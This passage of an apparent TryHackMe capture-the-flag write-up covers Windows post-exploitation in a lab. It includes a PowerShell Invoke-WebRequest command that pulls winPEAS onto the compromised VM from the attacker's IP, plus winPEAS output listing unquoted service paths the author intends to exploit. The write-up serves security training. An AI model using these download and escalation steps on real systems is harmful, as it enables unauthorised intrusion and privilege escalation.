![The VM still has time left](https://i.imgur.com/LAlIEYa.png)

As you can see there is still time left before the VM expires. Maybe is my VPN connection failing and that's why I lost communication with the VM?
I changed to another VPN server location on THM and reconnected. The VM is still not responding, not even ping. I'll just terminate and redeploy again I guess.

I went ahead and performed all the steps that we saw until I get the reverse shell again. Let's upload winPEAS and run it. Here another nice thing of this room, neither curl nor wget worked. But we do have Powershell.

> Check [this page](https://4sysops.com/archives/use-powershell-to-download-a-file-with-http-https-and-ftp/) for a bit more on downloading files with Powershell.

`Invoke-WebRequest -Uri "http://10.13.0.34:2112/winPEAS.bat" -OutFile "winPEAS.bat"`

And this time we succeed. Nothing like the nth time charm :laughing:


![We get winPEAS uploaded](https://i.imgur.com/KjQdKLR.png)

Let's run that `winPEAS.bat` thing before anything else happens (looks angrily at the VM expiration timer). The results from this tool are quite large, particularly the Unquoted service paths sections kind of seemed familiar to me. I don't recall which other room on THM had me exploit those. Let's try that out

```sh
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] UNQUOTED SERVICE PATHS <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Progam.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Program Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'
[i] The permissions are also checked and filtered using icacls
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
aspnet_state 
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)

AWSLiteAgent 
 C:\Program Files\Amazon\XenTools\LiteAgent.exe 
Invalid parameter "Files\Amazon\XenTools\LiteAgent.exe"
NetTcpPortSharing 
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)

PerfHost 
 C:\Windows\SysWow64\perfhost.exe 
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

PsShutdownSvc 
 C:\Windows\PSSDNSVC.EXE 
C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)

TrustedInstaller 
 C:\Windows\servicing\TrustedInstaller.exe 
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

```
